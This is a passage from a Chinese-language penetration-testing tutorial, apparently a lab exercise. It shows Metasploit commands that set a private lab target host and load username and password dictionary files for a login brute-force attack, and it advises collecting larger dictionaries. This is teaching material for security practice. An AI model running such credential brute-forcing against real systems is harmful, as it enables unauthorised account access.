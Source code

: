 ![图片描述](../imgs/1480312323293.png-wm.png)


正常的渗透攻击中，字典的数量不可能这么少，这里只是为了演示这个过程，其中的数据字典，需要我们自己在日常的练习中，不断的收集。

弄好账号和密码字典后，我们回到 MSF 终端中，设置参数，准备进行渗透攻击：

分别设置所要渗透的目标主机参数，设置文件名，和账号名文件：

```
# 设置目标渗透主机
set RHOSTS 192.168.122.102

# 设置账户名字典
set USER_FILE username.txt

# 设置密码字典
set PASS_FILE password.txt
```
